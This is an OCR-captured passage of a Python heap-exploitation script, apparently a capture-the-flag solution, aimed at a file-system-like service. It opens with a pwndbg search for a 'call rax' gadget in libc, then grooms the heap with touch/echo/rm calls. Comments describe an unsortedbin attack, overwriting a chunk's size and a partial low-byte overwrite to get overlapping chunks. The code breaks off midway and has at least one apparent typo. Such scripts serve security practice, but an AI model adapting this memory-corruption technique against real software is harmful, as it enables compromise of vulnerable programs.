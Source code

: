 ```python
  '''
  pwndbg> find /2b 0x7f971f8a0000, 0x7f971f8affff, 0xff,0xd0
  0x7f971f8a03d8 <systrim+200>
  0x7f971f8a0657 <ptmalloc_init+631>
  2 patterns found.
  '''

  try: 
      mkdir("test1")
      mkdir("test2")
      mkdir("test3")
      mkdir("test4")
      mkdir("test5")
      mkdir("test6")
      # info: test6 is used only for padding!
      for i in range(5):
        cd("./test"+str(i+2))
        for j in range(0xe):
          touch(str(j+1))
        cd("../")
      print("[+] pre-touched chunks")


      cd("./test1")
      touch("a")
      touch("k")
      touch("large")
      touch("b")
      touch("c")
      touch("LARGE")
      echo("a","A"*0x450)         # for unsortedbin attack
      echo("k","k"*0x130)         # just for padding
      echo("large","B"*0x450)
      echo("b","A"*0x450)         # to overwrite LARGE's size !!!
      cd("../")
      rm("./test1/b")
      rm("./test1/large")
      cd("test1")
      echo("c","\r"*0x460)
      echo("LARGE","L"*0x460)     # to cause error!!!

      touch("hoge")
      touch("hoge2")
      te("padding","K"*0x30)      # JUST PADDING

      print("[+] prepared for later attack")

      # prepare for ADV3  part1 in test2 ##########################

      # get overlapped chunk.
      LSB_A1 = 0xd0              # chunk A's LSB
      adv3_size1 = bufend_s
      cd("../test2")
      echo("1","\r"*(0x50))
      echo("2","2"*(0x20)) # A
      #raw_input("check A's LSB")
      echo("3","3"*(0x20)) # B
      echo("4","4"*(0x50))
      cd("../")
      rm("./test2/1")
      rm("./test2/4")
      cd("test2")
      echo("4",p8(LSB_A1))
```
